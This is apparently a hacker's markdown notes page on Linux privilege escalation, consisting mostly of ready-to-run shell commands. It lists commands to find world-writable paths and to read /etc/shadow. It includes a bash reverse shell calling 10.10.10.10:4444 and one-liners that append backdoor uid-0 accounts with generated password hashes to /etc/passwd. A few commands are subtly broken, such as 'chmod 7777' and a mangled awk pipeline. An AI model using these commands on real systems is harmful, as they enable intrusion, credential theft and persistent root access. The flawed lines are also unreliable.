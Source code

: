 Create passwords
```bash
mkpasswd -m sha-512 Password1234
```

Are the `.git`s check [[Git-Repository-Hacking]]
#### World writable files and directories to check

Where can anyone write?
```bash
# Writable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
# Writable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

Always check permissions custom scripts deeper binaries and scripts that are used.
```bash
ls -la /etc/hosts && ls -la /etc/crontab && ls -la /etc/shadow && ls -la /etc/shadow.bak 
find / -writable -type d 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

chown -R $user:$user /$path # recursive chown if in need to pwn 
chmod 7777 $privEscFile # set sticky bit, suid, guid  

pythonscript.py -i # interactive python in security context
```

Touch or edit some file with for shell; don't forget Language, file extensions, shared binaries or libraries. This just a placeholder example:  
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Writable `/etc/passwd`? Some OSes support hashes in `/etc/passwd`
```bash
# r00t : r00t
echo "r00t:jIqZM0B41vZQs:0:0:root:/root:/bin/bash" >> /etc/passwd
```

#### Weak file permission on password system

```bash
cat /etc/passwd | cut -d: -f1 | awk -F: '($3 == "0") {print}' /etc/passwd
ls -la /etc/shadow | cat /etc/shadow
# For /etc/passwd use one of the below
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
# Then
echo 'hacker:$GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash' >>/etc/passwd
```
NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.
